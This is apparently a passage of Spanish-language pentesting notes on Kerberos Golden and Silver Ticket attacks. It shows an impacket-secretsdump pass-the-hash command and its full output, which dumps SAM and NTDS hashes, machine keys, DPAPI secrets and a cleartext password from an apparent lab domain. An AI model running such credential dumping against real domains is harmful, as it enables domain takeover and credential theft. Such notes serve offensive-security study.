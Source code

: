 ```yaml
---
icon: coin-front
---
```


# Kerberos Golden Ticket y Silver Ticket

Con esta tecnica lo que podemos hacer es montarnos nuestros propios `TGT's` y `Tickets` de servicio.

Lo que tendremos que hacer de primeras es obtener el `hash` del usuario `krbtgt` que es el que cifra con su clave privada los `TGT's` y demas informacion, por lo que tendremos que obtener unicamente su `hash` y se puede hacer de varias forma, una de ellas con una vulnerabilidad de `DCSync` como vimos anteriormente.

Si nosotros realizamos un volcado de la `SAM` como vimos anteriormente una vez obtenido del `hash` del `administrador` de dominio en `kali` de la siguiente forma:

```shell
impacket-secretsdump Administrator@192.168.5.5 -hashes :a87f3a337d73085c45f9416be5787d86
```

Info:

```
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0x52d140c469db2c66b93d05a05f280802
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:a87f3a337d73085c45f9416be5787d86:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
CORP\DC01$:aes256-cts-hmac-sha1-96:42e6d83a65fa4fc7246f8ee733d26121a49a9b7fb79f8c820486766930eb6b55
CORP\DC01$:aes128-cts-hmac-sha1-96:dc0559121ad2f325f3adfd4ef3a40810
CORP\DC01$:des-cbc-md5:980bdc04c4f2ea73
CORP\DC01$:plain_password_hex:d7da285f5194608f957b5ea6c42c3cb9b7322a82125103f7a1c9e8926f63716004b8cf98a473fc6d5e87ccf3709a600703b571c53e05e7c952d94591fa86f4fce21046672731b53a2a43a68b2a608b88319a00abb4491a030e35b96bdcd77e2488d1a4f34bc7083618a3275def0ae4d468cd39e619c1f92f11829e2e958bcdd80c141f00cc56a878999e388a6f8aa4af33082a2bf9f36eef139fb88ee2f5a1743b151c822055b9b39914bc0fbb7ef692dc390cbf1f2a38e6f6542108af129719edb900893bc04c436084a85ed03c66da05be935ac87d4fd2591a17c76d69b2f6f24d88dfa65a404fbe36d14f38ff5d5f
CORP\DC01$:aad3b435b51404eeaad3b435b51404ee:0a293c84079cceb0350201b4477561f3:::
[*] DefaultPassword 
CORP\Administrador:Passw0rd
[*] DPAPI_SYSTEM 
dpapi_machinekey:0xecca8eedfcd9eb1bfaa4e03106e41206d125bdad
dpapi_userkey:0xbbeae8ca12481039a05a0bae4fd17749a41a6638
[*] NL$KM 
 0000   C5 03 54 75 59 68 1A 6B  F5 1E 14 E4 12 FA 5F F7   ..TuYh.k......_.
 0010   B1 99 A3 60 9A 96 3D 89  46 F9 ED E4 5C 54 4B 89   ...`..=.F...\TK.
 0020   81 FA 24 DD 83 BD 97 C6  21 04 ED 7D 69 CF 6E 3D   ..$.....!..}i.n=
 0030   65 AA 53 AA 53 7C 50 C9  F8 33 E2 C8 14 14 24 CC   e.S.S|P..3....$.
NL$KM:c503547559681a6bf51e14e412fa5ff7b199a3609a963d8946f9ede45c544b8981fa24dd83bd97c62104ed7d69cf6e3d65aa53aa537c50c9f833e2c8141424cc
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:a87f3a337d73085c45f9416be5787d86:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```